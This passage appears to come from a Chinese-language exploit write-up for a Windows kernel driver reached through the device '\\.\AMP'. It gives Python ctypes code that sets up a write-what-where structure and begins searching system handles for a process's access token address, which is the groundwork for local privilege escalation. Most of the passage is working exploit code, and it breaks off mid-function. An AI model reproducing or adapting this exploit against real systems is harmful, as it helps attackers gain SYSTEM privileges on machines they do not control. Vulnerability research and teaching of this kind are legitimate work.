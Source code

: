 ```php
NTSTATUS = DWORD
PHANDLE = POINTER(HANDLE)
PVOID = LPVOID = ULONG_PTR = c_void_p
UINT32 = c_uint32

DEVICE_NAME = "\\\\.\\AMP"

ntdll.NtQuerySystemInformation.argtypes = [DWORD, PVOID, ULONG, POINTER(ULONG)]
ntdll.NtQuerySystemInformation.restype = NTSTATUS

OpenProcessToken.argtypes = [HANDLE, DWORD , PHANDLE]
OpenProcessToken.restype  = BOOL
```

然后定义数据结构：

```php
class WriteWhatWhere(Structure):
    # Misleading, we can only write 0xfffffffe in the address of "Where"
    _fields_ = [
        ("Header", UINT32),
        ("Trigger", PVOID),
        ("Where", PVOID)
    ]

class SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX(Structure):
    _fields_ = [
        ("Object", PVOID),
        ("UniqueProcessId", PVOID),
        ("HandleValue", PVOID),
        ("GrantedAccess", ULONG),
        ("CreatorBackTraceIndex", USHORT),
        ("ObjectTypeIndex", USHORT),
        ("HandleAttributes", ULONG),
        ("Reserved", ULONG),
    ]
class SYSTEM_HANDLE_INFORMATION_EX(Structure):
    _fields_ = [
        ("NumberOfHandles", PVOID),
        ("Reserved", PVOID),
        ("Handles", SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX * 1),
    ]
```

WriteWhatWhere：用于构造漏洞利用的数据结构，包含三个字段：Header，Trigger和Where。

SYSTEM\_HANDLE\_TABLE\_ENTRY\_INFO\_EX：表示系统句柄表中的条目信息。

SYSTEM\_HANDLE\_INFORMATION\_EX：表示系统句柄信息，包含句柄数量和句柄表条目信息。

`get_token_by(target_pid, data, _filter=None)`遍历系统句柄信息，寻找与给定进程ID (target\_pid) 匹配的令牌句柄：

```php
def get_token_by(target_pid, data, _filter=None):
    header = cast(data, POINTER(SYSTEM_HANDLE_INFORMATION_EX))
    print('[+] Searching access token address')

    data = bytearray(data[16:])
    current_entry = 0
    address = None
    while current_entry < header[0].NumberOfHandles:
        address, pid, handle = struct.unpack('<QQQ', data[:24])
        data = data[40:]
        current_entry += 1

        if pid != target_pid:
            continue
```